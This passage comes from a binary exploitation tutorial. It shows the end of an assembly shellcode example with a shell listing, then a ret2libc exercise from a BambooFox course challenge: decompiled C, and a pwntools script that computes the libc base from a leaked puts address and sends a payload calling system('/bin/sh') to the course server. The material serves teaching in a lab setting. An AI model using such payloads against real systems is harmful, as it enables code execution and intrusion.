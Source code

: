 ```shell
	pop eax
	add eax,0x2
	add eax,0x2
	add eax,0x2
	add eax,0x2
	add eax,0x2
	int 0x80
	pop ebp
	pop edi
	pop esi
	pop ebx
====================
Executing command:" nasm -f elf32 input.s && ./ld -m elf_i386 -o a.bin input.o && ./a.bin "
running ....
ls
bin
boot
dev
etc
…
```

# 0x03 ret2libc

## exercise one

Subject: [ret2libc](https://bamboofox.cs.nctu.edu.tw/courses/1/challenges/7)

This problem just gives us the `puts` address and the string address of `/bin/sh`:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-14h]@1

  puts("Hello!");
  printf("The address of \"/bin/sh\" is %p\n", binsh);
  printf("The address of function \"puts\" is 0x%x\n", &puts);
  fflush(stdout);
  return __isoc99_scanf("%s", &v4);
}
```

Although it is easy to calculate the system function address with the given libc file, we should adjust the length of padding due to the `and     esp, 0FFFFFFF0h` instruction in main function:

```python
import re
from pwn import *

#p = process("ret2libc")
p = remote("bamboofox.cs.nctu.edu.tw", 11002)
libc = ELF("libc.so.6")

#gdb.attach(p)
p.recvline()
str_sh_address = int(re.search(r"0x.*?\b", p.recvline()).group(), 16)
puts_address = int(re.search(r"0x.*?\b", p.recvline()).group(), 16)
libc_base = puts_address - libc.symbols["puts"]
print hex(libc.symbols["puts"])
system_address = libc_base + libc.symbols["system"]
payload = flat(["A"*(0x14+4+8), system_address, 0xdeadbeef, str_sh_address])

p.sendline(payload)
```